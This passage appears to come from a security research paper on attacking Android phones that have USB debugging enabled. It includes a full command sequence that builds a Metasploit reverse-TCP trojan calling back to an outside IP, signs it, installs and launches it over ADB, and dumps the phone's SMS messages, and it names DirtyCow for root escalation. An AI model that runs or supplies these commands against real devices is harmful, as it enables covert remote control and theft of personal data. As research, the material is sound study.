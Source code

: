 Enabling USB debugging allows to send commands to a smartphone using Android Debug Bridge (ADB) from a computer.  All Android versions prior to 5.0 do not require any authentication of a computer that uses ADB. Android versions starting from 5.0 and higher require the user to unlock his phone and add the public key of ADB.

ADB in Android versions prior to 5.0 allows anyone to install applications with arbitrary permissions. We were able to install a trojan application that collects all data including phone contacts, SMS and other personal information and sends it to Command and Control  (C\&C) server. The advantage of this approach is that if user retrieves his smartphone back we will still be able to control his phone.

In order to create a trojan application we may use Metasploit framework. It allows us to choose the payload that will connect to our server, i.e. it is a reverse TCP shell. After that we need to sign the application so the smartphone could accept it. This can be done using the following commands:

\begin{lstlisting}
$ msfvenom -p android/meterpreter/reverse_tcp  LHOST=188.130.155.36 LPORT=9999 R > evil.apk
$ keytool -genkey -v -keystore my-release-key.jks -keyalg RSA -keysize 2048 -validity 10000 -alias app
$ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.jks evil.apk app
In order to install it on the smartphone we have to execute the following commands:
$ adb install evil.apk
$ adb shell
shell@android:/ $ am start -n com.metasploit.stage/com.metasploit.stage.MainActivity
\end{lstlisting}

After opening meterpreter session we are able to control the smartphone, for example, dump all SMS:

\begin{lstlisting}
meterpreter > dump_sms
[*] Fetching 1273 sms messages
[*] SMS messages saved to: sms_dump_20161128114216.txt
\end{lstlisting}

In case of rooted smartphone and enabled debugging we were able to make a full memory dump. If the device is not rooted, we can escalate privileges via such attacks as DirtyCow and gain root access.

In our research we tested the publicly available~\cite{android4} DirtyCow exploit to elevate shell privileges to root on a smartphone to acquire raw dumps of user data partitions. 

